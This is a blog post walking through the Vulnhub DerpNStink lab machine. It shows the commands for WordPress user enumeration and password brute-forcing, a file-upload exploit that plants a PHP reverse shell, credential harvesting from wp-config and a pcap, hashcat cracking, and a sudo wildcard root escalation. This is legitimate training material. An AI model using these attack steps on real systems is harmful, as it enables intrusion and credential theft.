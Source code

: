 ```yaml
---
layout: post
title:  "Vulnhub - DERPNSTINK: 1"
date:   2020-10-22 20:00:00 +1100
category: hacking
---
```


## Introduction
*Mr. Derp and Uncle Stinky are two system administrators who are starting their own company, DerpNStink. Instead of hiring qualified professionals to build up their IT landscape, they decided to hack together their own system which is almost ready to go live...*

This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [DERPNSTINK: 1](https://www.vulnhub.com/entry/derpnstink-1,221/) from vulnhub. It's got a Southpark theme, although it's not overpowering (which I really appreciate) and I haven't seen the episode so I don't get the reference.

## Ports
This box has FTP, SSH and HTTP on the standard ports (21, 22 and 80).

## FTP
We have no anonymous access. Moving on...

## HTTP
Robots.txt gives two disallowed entries; /php and /temporary. So we have a hint the server may be running PHP. The /php directory gives a 403, and the /temporary directory suggests we *try harder!*.

The page source on the webroot refers to */webnotes/info.txt*, which says 

> @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live 

So maybe we have a username. Going back out to *webnotes*, we get:

> [stinky@DeRPnStiNK /var/www/html ]$ whois derpnstink.local Domain Name: derpnstink.local

And some other similar stuff - so we definitely have a user called **stinky** and a domain called **derpnstink.local**. I add it to /etc/hosts.

### Gobuster
Gobuster on /php turns up *phpMyAdmin*. So that's interesting, but we'll come back to it. We also find *weblog* in the webroot, which is the blog the earlier comment referred to. It's running Wordpress, so let's try wpscan:

``
root@kali:/opt/vulnhub/derpnstink# wpscan -e --url http://derpnstink.local/weblog
``

This turns up two users: **unclestinky** and **admin**. A password attack:

``
root@kali:/opt/vulnhub/derpnstink# wpscan --url http://derpnstink.local/weblog -U 'unclestinky,admin' -P /usr/share/seclists/Passwords/probable-v2-top12000.txt 
``

quickly yields *admin:admin*, but nothing for *unclestinky*.

Logging in, our 'admin' user is not actually an administrator.

### Plugin
wpscan also revealed a plugin - *Slideshow Gallery 1.4.6* - which has an arbitrary file upload vulnerability. I mirror the python script from *searchsploit* and run it:

``
root@kali:/opt/vulnhub/derpnstink# python 34681.py -t http://derpnstink.local/weblog -u admin -p admin -f sh33l.php
``

Where *sh33l.php* is the pentestmonkey PHP reverse shell. It's found at 

>http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/sh33l.php

And gives back a shell as *www-data.* 

## On the box
Enumeration with *linpeas* suggests the box probably should be vulnerable to multiple kernel exploits but I try a few quickly and they fail. 

It also gives us the credentials for *mysql*:

{% highlight shell %}
[+] Searching Wordpress wp-config.php files
wp-config.php files found:
/var/www/html/weblog/wp-config.phpdefine('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mysql');
define('DB_HOST', 'localhost');
{% endhighlight %}

This looks like it is probably a dead end, but we try it in *phpMyAdmin* and it works. We can grab the hash from the *wp-users* table:

{% raw %}
unclestinky:$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 
{% endraw %}

I crack this in Hashcat on my Windows host machine:

{% highlight powershell %}
PS C:\Users\David\Downloads\hashcat-5.1.0> .\hashcat64.exe -m 400  .\hash.txt .\rockyou.txt
hashcat (v5.1.0) starting...
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57

Session..........: hashcat
Status...........: Cracked
Hash.Type........: phpass, WordPress (MD5), phpBB3 (MD5), Joomla (MD5)
Hash.Target......: $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41
Time.Started.....: Thu Oct 22 21:09:21 2020 (10 secs)
Time.Estimated...: Thu Oct 22 21:09:31 2020 (0 secs)
{% endhighlight %}

With this, we can *su* to the *stinky* account.

## Stinky
Enumerating *stinky* we can find an SSH private key:

{% highlight shell %}
stinky@DeRPnStiNK:~/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh$ cat key.txt
{% endhighlight %}

And once we copy the contents and *chmod 600* we can SSH in as *stinky* and leave our shell behind.

More enumeration reveals a pcap file; might be interesting?

{% highlight shell %}
stinky@DeRPnStiNK:~$ cd Documents/
stinky@DeRPnStiNK:~/Documents$ ls -lash
total 4.2M
4.0K drwxr-xr-x  2 stinky stinky 4.0K Nov 13  2017 .
4.0K drwx------ 12 stinky stinky 4.0K Jan  9  2018 ..
4.2M -rw-r--r--  1 root   root   4.2M Nov 13  2017 derpissues.pcap
{% endhighlight %}

Digging through this, we can find a password for the *mrderp* user:

{% highlight html %}
POST /weblog/wp-admin/user-new.php HTTP/1.1
Host: derpnstink.local
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derpnstink.local/weblog/wp-admin/user-new.php
Cookie: wp-saving-post=8-saved; wordpress_ef6a5fe14854bbc5e051bfac8b7603e7=unclestinky%7C1510725219%7CHPwFbs1B7NSefEO05QbhgUwtXobk0hhCbJT33eZsgek%7C6460ba6af109224bf369c32e37c430fd32a9ac320b4d978bc16d8a1f3ca99f9e; wp-settings-time-1=1510552441; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_ef6a5fe14854bbc5e051bfac8b7603e7=unclestinky%7C1510725219%7CHPwFbs1B7NSefEO05QbhgUwtXobk0hhCbJT33eZsgek%7C55f5ff022ece754f6aeb3642679a2074c97bd50b026460691164c8ec509acd34
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 366

action=createuser&_wpnonce_create-user=b250402af6&_wp_http_referer=%2Fweblog%2Fwp-admin%2Fuser-new.php&user_login=mrderp&email=mrderp%40derpnstink.local&first_name=mr&last_name=derp&url=%2Fhome%2Fmrderp&pass1=derpderpderpderpderpderpderp&pass1-text=derpderpderpderpderpderpderp&pass2=derpderpderpderpderpderpderp&pw_weak=on&role=administrator&createuser=Add+New+UserHTTP/1.1 302 Found
Date: Mon, 13 Nov 2017 05:54:58 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.22
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Location: users.php?update=add&id=3
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
{% endhighlight %}

And with that, we can *su* as *mrderp*.

## mrderp
The final privesc to root is perhaps the easiest - binaries in */home/mrderp/binaries/* named *derpyNAME* can be run as root. We already knew this from a file stored on the server in */support* called *troubleshooting.txt*:

>On one particular machine I often need to run sudo commands every now and then. I am fine with entering password on sudo in most of the cases.  
However i dont want to specify each command to allow  
How can I exclude these commands from password protection to sudo?  
********************************************************************  
>Thank you for contacting the Client Support team. This message is to confirm that we have resolved and closed your ticket.   
Please contact the Client Support team at https://pastebin.com/RzK9WfGw if you have any further questions or issues.  
Thank you for using our product.  
********************************************************************  

Visting https://pastebin.com/RzK9WfGw we find this:
>mrderp ALL=(ALL) /home/mrderp/binaries/derpy*

Let's confirm that now:

{% highlight shell %}
mrderp@DeRPnStiNK:~$ sudo -l
sudo -l
[sudo] password for mrderp: derpderpderpderpderpderpderp

Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
{% endhighlight %}

I haven't encountered this exact scenario before - let's try making a copy of bash.

{% highlight shell %}
mrderp@DeRPnStiNK:~/binaries$ cp /bin/bash derpybash
cp /bin/bash derpybash
mrderp@DeRPnStiNK:~/binaries$ sudo -u root /home/mrderp/binaries/derpybash
sudo -u root /home/mrderp/binaries/derpybash
root@DeRPnStiNK:~/binaries# whoami
whoami
root
{% endhighlight %}

And that was the end of **derpnstink**. Quite a few steps involved, and it was pretty good - thumbs up *Bryan Smith*.
